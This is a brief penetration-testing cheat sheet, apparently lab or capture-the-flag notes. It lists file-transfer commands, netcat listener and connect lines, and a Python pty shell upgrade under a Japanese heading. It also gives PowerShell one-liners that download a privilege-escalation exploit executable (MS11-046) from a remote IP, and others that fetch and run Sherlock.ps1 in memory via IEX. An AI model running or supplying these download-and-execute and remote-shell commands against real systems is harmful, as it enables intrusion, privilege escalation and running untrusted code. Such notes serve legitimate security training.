 
## File transfer
### curl
`curl -o <filename> <URL>`

### wget
`wget -O <filename> <URL>`


### axel
`axel -a -n 20 -o <filename> <URL>`

### Netcat
`nc -nlvp 4444`

`nc -nv 10.11.0.22 4444`

### 対話型シェルのアップグレード
python -c 'import pty;pty.spawn("/bin/bash")'


powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.76:9999/MS11-046.exe', 'c:\Users\Public\Downloads\40564.exe')"



powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.17.46/priv/windows/Sherlock.ps1') ; Find-AllVulns"

echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.17.46/Sherlock.ps1') | powershell -noprofile -

C:\windows\syswow64\windowspowershell\v1.0\powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell
